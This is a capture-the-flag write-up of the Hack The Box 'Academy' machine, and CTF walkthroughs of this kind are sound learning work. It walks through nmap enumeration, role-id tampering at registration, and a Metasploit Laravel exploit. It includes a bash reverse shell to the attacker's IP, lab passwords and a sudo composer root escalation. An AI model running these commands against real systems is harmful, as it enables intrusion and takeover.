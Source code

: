 # Box 



![image-20201229063404677](img/image-20201229063404677.png)

https://www.hackthebox.eu/home/machines/profile/297

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [User 2](#user-2)
  + [Root](#root)

# Contents 

## Enumeration

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.215 10.10.10.215
```

![image-20201229063656822](img/image-20201229063656822.png)

Let's add to our /etc/hosts file the subdomain `10.10.10.215 academy.htb`

After folder discovering I've found an admin.php page which leads us to a login page : 

![image-20201229080526926](img/image-20201229080526926.png)

There is also a register page : 

![image-20201229090316842](img/image-20201229090316842.png)

After registering I haven't found anything on the base website. That's why I decided to look at the register POST :

![image-20201229090417189](img/image-20201229090417189.png)

This is a sample request that I've done. We can see there is a roleid. Let's change it to `roleid=1`

Now we can login in the admin page.

![image-20201229090756860](img/image-20201229090756860.png)

Let's add `dev-staging-01.academy.htb` to our /etc/hosts

So we now have a new page : 

![image-20201229091615767](img/image-20201229091615767.png)

Well, We can see that we are running laravel. 

I searched for Laravel  exploit and found (https://www.exploit-db.com/exploits/47129) : 

## Exploitation

It's an exploit on MSF so let's use it. 

![image-20201229114951246](img/image-20201229114951246.png)

it seems that it's working : 

![image-20201229115020543](img/image-20201229115020543.png)

Let's getter a bette reverse_shell :

```bash
/bin/bash -i >& /dev/tcp/10.10.14.28/1236 0>&1
```

![image-20201229115624261](img/image-20201229115624261.png)

## Post-Exploitation

### User



I found a file containing DB creds : 

![image-20201229121512100](img/image-20201229121512100.png)

so we got this password `mySup3rP4s5w0rd !!` but here are all our users : 

````bash
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
g0blin:x:1005:1005::/home/g0blin:/bin/sh
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
root:x:0:0:root:/root:/bin/bash
````

I have tried each one and one suceeded `cry0l1t3`

![image-20201229143334226](img/image-20201229143334226.png)

### User 2

After getting root, i started a linpeas and we got new creds : 

```
mrb3n:mrb3n_Ac@d3my!
```

![image-20201229145044684](img/image-20201229145044684.png)



![image-20201229145112983](img/image-20201229145112983.png)

### Root

Now let's check what we can do as a super-user : 

```bash
sudo -l 
```

![image-20201229165737083](img/image-20201229165737083.png)

It seems that we can run user.

There is a privelege escalation that we can use(https://gtfobins.github.io/gtfobins/composer/) : 

Let's make a script with this code : 

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

![image-20201229165905790](img/image-20201229165905790.png)

Rooted.